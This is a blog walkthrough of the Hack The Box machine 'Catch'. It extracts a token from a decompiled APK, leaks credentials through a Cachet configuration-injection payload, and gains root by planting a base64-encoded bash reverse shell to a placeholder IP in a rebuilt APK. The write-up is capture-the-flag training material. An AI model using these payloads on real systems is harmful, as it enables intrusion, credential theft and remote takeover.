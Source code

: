 ```yaml
---
title: 'HTB - Catch'
author: paincakes
date: 2023-06-02 20:55:00 +0800
categories: [HTB, Medium]
tags: [linux, htb-walkthrough]
---
```



![Box-Info](https://paincakes.sirv.com/Images/HTB/Catch/Info.png)

# Summary
The **Catch** Machine in the hack the box was medium leveled fun box. This machine had hosted three different websites on different ports, From the first webpage we will download and apk file and decompile it for enumeration and get a token which will used to log in another website, that website will be hosting cachet server which is vulnerable to command injection. From exploiting that website, we will obtain the credentials of another user, which will be used to access the SSH service. We will have restricted access to the machine but after enumerating the remote machine further we will find one misconfigured filed owned by root. Which will be exploited to spawn the reverse shell with root permission.


## NMAP Scanning

As always starting the enumeration with nmap, since the nmap result was too lengthy I snipped out some parts.

![nmap](https://paincakes.sirv.com/Images/HTB/Catch/nmap1.png)
![nmap](https://paincakes.sirv.com/Images/HTB/Catch/nmap2.png)
![nmap](https://paincakes.sirv.com/Images/HTB/Catch/nmap3.png)

From the nmap result we can see that,
- Port 22 running SSH Service
- Port 80/5000/8000 running HTTP services
- Port 3000 running some Unknown service.

## Web Server Enumeration

Website being hosted on port 80 was a static webpage with nothing much to enumerate. But we could download an apk file which can be analyzed.

![catch](https://paincakes.sirv.com/Images/HTB/Catch/webpage.png)

On port 5000, it contained a login page.

![catch](https://paincakes.sirv.com/Images/HTB/Catch/port8000.png)

On port 8000, it also contained a incidents report page, and it also had a login page when in the dashboard option on the bottom of the page.

![catch](https://paincakes.sirv.com/Images/HTB/Catch/actualport8000.png)
![catch](https://paincakes.sirv.com/Images/HTB/Catch/loginport8000.png)

After enumerating the webpages manually, I used gobuster to enumerate the hidden pages on all the websites being hosted on different ports.
There was nothing informative to be found on webpage which was being hosted on port 80.

![catch](https://paincakes.sirv.com/Images/HTB/Catch/gobuster80.png)

There were lots of hidden webpages on the website, which was being hosted on port 5000, looking at the status code, we can assume that for accessing those webpages we need to be logged in.

![catch](https://paincakes.sirv.com/Images/HTB/Catch/gobuster5000.png)

As I had guessed to access the webpage we need to be logged in, or else it shows “unauthorized” error.

![catch](https://paincakes.sirv.com/Images/HTB/Catch/unauth.png)

I also used gobuster on website which being hosted on port 8000 and it also did not have any useful information.

## Analyzing the APK 

Firstly, I used `exiftool` to analyze the apk, but it did not have much interesting information. So, I used apktool to decompile the android application and enumerate it for gathering more interesting information.

`apktool -d <apk_file>`

![catch](https://paincakes.sirv.com/Images/HTB/Catch/decomileapk.png)

In the `/res/values` directory of the decompiled apk folder, we can find `strings.xml` which contained and interesting token string.
We could use this token to authenticate to the website on port 5000 which was showing `unauthenticated` error, and for that we can use `curl`.

![catch](https://paincakes.sirv.com/Images/HTB/Catch/token.png)

`curl -H 'Authorization: bearer <token>' 'http://10.10.11.150:5000/users’`

![catch](https://paincakes.sirv.com/Images/HTB/Catch/users.png)

It did show the users and its id, other than that it didn’t show interesting information, and the result looked unmanaged and hard to analyze, so I used Burpsuite to intercept the further requests and view data in managed way. In the “rooms” page I found an interesting room name.

`curl -H 'Authorization: bearer <token>' 'http://10.10.11.150:5000/rooms’ -x <proxy>`

![catch](https://paincakes.sirv.com/Images/HTB/Catch/curlroomsproxy.png)

The first room’s name was **Cachet Updates and Maintenance**, which could contain interesting information.

![catch](https://paincakes.sirv.com/Images/HTB/Catch/roomsburp.png)

We could try accessing messages of that room using curl.

`curl -H ‘Authorization: bearer <token>’ ‘http://10.10.11.150/rooms/<room_id>/messages’ -x <proxy>`

![catch](https://paincakes.sirv.com/Images/HTB/Catch/curlmsgproxy.png)

From that request, we could read the conversation of the **admin** and another user **john** and after reading the conversation further we can see the admin provides credentials for account for **John**.

![catch](https://paincakes.sirv.com/Images/HTB/Catch/creds.png)

## Cachet Server Exploitation

I tried using the credentials on website on port 5000 but it said it was invalid. But using the same creds on login page of port 8000, it was successful. We could now access the Dashboard of the user **John**.

![catch](https://paincakes.sirv.com/Images/HTB/Catch/johndashboard.png)

After logging in, I enumerated the dashboard thoroughly, but could not find much information. Since we know it is a cachet server, I searched for its vulnerabilities and found one. According to this [article](https://blog.sonarsource.com/cachet-code-execution-via-laravel-configuration-injection), we can intercept the EMAIL package and modify the content to the injection statement. 
I tried modifying the **Mail from Address** field as it already contained some value from the database, so I modified the content on that field to **${DB_USERNAME}**, saved the configuration and logged out. After logging in again. we will see **Will** on the field where we injected the payload and got the username.

![catch](https://paincakes.sirv.com/Images/HTB/Catch/dbpassword.png)
![catch](https://paincakes.sirv.com/Images/HTB/Catch/dbuser.png)

Let’s try the same thing for obtaining password, Modify the “Mail from Address” field to “${DB_PASSWORD}” log in again after logging out and we will obtain the password for the user “Will”.

![catch](https://paincakes.sirv.com/Images/HTB/Catch/password.png)

As from the `nmap` result we could see that the SSH service was open, so let’s trying access the SSH service as user Will.

![catch](https://paincakes.sirv.com/Images/HTB/Catch/sshwill.png)

## Prvilege Escalation

After accessing the SSH service as user Will, the permissions were quite restricted, we could not access sudo privilege as user will and did not find anything interesting in SUID bits as well. So, I enumerated the machine with `Linpeas`.

![catch](https://paincakes.sirv.com/Images/HTB/Catch/linpeas.png)

From the result of Linpeas, I found an interesting file which was owned by root and readable by only Will user.

![catch](https://paincakes.sirv.com/Images/HTB/Catch/readable%20files.png)

We can now analyze the file `opt/mdm/verify.sh` and find one interesting function,
In the function `app_check()`, it searches for the **APP_NAME** in `/res/values/strings.html` inside of the apk file. This can be vulnerable to command injection. We can try injecting base64 encoded bash reverse shell command injection.

`echo ‘bin/bash -i >& dev/tcp/<ip>/<port> 0>&1’ | base64`

![catch](https://paincakes.sirv.com/Images/HTB/Catch/base64encode.png)
![catch](https://paincakes.sirv.com/Images/HTB/Catch/payload.png)

Now, we need to add this payload in the line 30 (app_name) in `/res/values/strings.xml` in the application directory we decompiled earlier.

![catch](https://paincakes.sirv.com/Images/HTB/Catch/payloadkept.png)

We will now recompile the file using apktool.jar module from java which can be downloaded from [here](https://github.com/iBotPeaches/Apktool/releases/download/v2.6.1/apktool_2.6.1.jar).
Let’s recompile the file and building a new apk file.

`java -jar apktool.jar b -f -d <decompiled_directory> -o <output_filename>`

![catch](https://paincakes.sirv.com/Images/HTB/Catch/catch2.0.png)

After building the new apk file, we will need to sign the apk file and verify it before sending it to the remote machine.

```
keytool -genkey -v -keystore my-release-key.keystore -alias alias_name -keyalg RSA -keysize 2048 -validity 10000
```

![catch](https://paincakes.sirv.com/Images/HTB/Catch/keytool.png)

Just enter your name and leave other fields empty, and at last confirm the configuration and send “y” to generate the signature file.
Now, we can start the python http server and host the file to be downloaded on the remote machine from the SSH shell of user Will.

![catch](https://paincakes.sirv.com/Images/HTB/Catch/catchinwill.png)

Just copy the new apk file on the `/opt/mdm/apk_bin` directory and start the netcat listener on our local machine. After a while, we will get the root shell in our netcat listener and the root flag on the “root” directory.

![catch](https://paincakes.sirv.com/Images/HTB/Catch/rootflag.png)



